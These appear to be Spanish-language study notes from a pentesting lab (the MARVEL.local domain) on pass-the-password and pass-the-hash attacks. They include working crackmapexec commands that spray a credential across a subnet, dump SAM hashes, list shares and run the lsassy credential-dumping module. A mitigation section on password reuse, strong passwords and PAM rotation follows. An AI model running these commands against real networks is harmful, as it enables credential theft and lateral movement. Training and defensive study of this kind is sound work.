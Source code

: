 

## 🔑Pass the password


Para ver en que Sistemas Tenemos acceso podemos usar ***crackmapexec***

```bash
crackmapexec smb 192.168.0.0/24 -u fcastle -d MARVEL.local -p Mypassword1234!
```

Donde ponga (Pwn3d!) significa que tenemos acceso admin y podemos conectarnos con una shell

![[Pasted image 20250427162616.png]]



## 🔑Pass the hash

Para hacer un pass the hash con un hash de un usuario admin local debemos ejecutar lo siguiente:

### Crackmapexec

```bash
crackmapexec smb 192.168.0.0/24 -u Administrador  -H aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840 --local-auth
```


Tambien podemos extraer las SAM de los equipos

```bash
crackmapexec smb 192.168.0.0/24 -u Administrador  -H aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840 --local-auth --sam
```

![[Pasted image 20250427163920.png]]

También podemos sacar las carpetas compartidas con:

```bash
crackmapexec smb 192.168.0.0/24 -u Administrador  -H aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840 --local-auth --shares
```

### Modulos

***crackmapexec*** cuenta con diferentes modulos para cada cosa, para verlo, podemos ejecutar:

```bash
crackmapexec smb -L
```

![[Pasted image 20250427170542.png]]

Para ejecutar uno de los modulos debemos añadir el parametro *-M* :

```bash
crackmapexec smb 192.168.0.0/24 -u Administrador  -H aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840 --local-auth -M lsassy
```



### cmedb


***crackmapexec*** Cuenta con una base de datos que va guardando los datos que vamos obteniendo, para llegar a esta base de datos debemos ejecutar lo siguiente:

```
cmedb
```





# 🛡️ Mitigación de ataques Pass-the-Hash / Pass-the-Password

Aunque es difícil prevenir completamente estos ataques, podemos **dificultar mucho** el trabajo a un atacante aplicando varias estrategias:

---

### 🔹 1. **Limitar la reutilización de cuentas**

- **Evitar reutilizar contraseñas** de administradores locales en múltiples equipos.
    
- **Deshabilitar cuentas de Invitado y Administrador** por defecto.
    
- **Aplicar el principio de mínimo privilegio:** limitar qué usuarios son administradores locales.
    

🔎 _¿Por qué?_  
Si un atacante consigue el hash de un administrador local y esa contraseña es igual en todas las máquinas, puede moverse lateralmente fácilmente. Evitarlo corta esa posibilidad.

---

### 🔹 2. **Utilizar contraseñas fuertes**

- **Cuanto más largas mejor** (idealmente más de **14 caracteres**).
    
- **Evitar palabras comunes** y patrones fáciles de adivinar.
    
- **Recomendar frases largas** en lugar de simples palabras (por ejemplo: "MeGustanLasGalletasDeChocolate2024!").
    

🔎 _¿Por qué?_  
Un hash de una contraseña débil se puede crackear fácilmente. Contraseñas fuertes resisten ataques de fuerza bruta y rainbow tables.

---

### 🔹 3. **Implementar Privileged Access Management (PAM)**

- **Gestionar el acceso a cuentas sensibles** mediante procedimientos de "checkout" (solicitar la contraseña cuando se necesita).
    
- **Rotar automáticamente las contraseñas** cuando se accede y después de usarlas.
    
- **Asegurar que los hashes y contraseñas cambian frecuentemente**, limitando la ventana de ataque.
    

🔎 _¿Por qué?_  
Aunque un atacante robe un hash o contraseña, si ésta cambia constantemente (rotación automática), ese acceso robado quedará inútil muy rápido.

---

# 🎯 Resumen general

|Estrategia|Impacto|
|---|---|
|No reutilizar contraseñas locales|Limita movimiento lateral|
|Contraseñas largas y fuertes|Dificulta el crackeo de hashes|
|PAM y rotación de credenciales|Reduce el valor del hash robado en el tiempo|
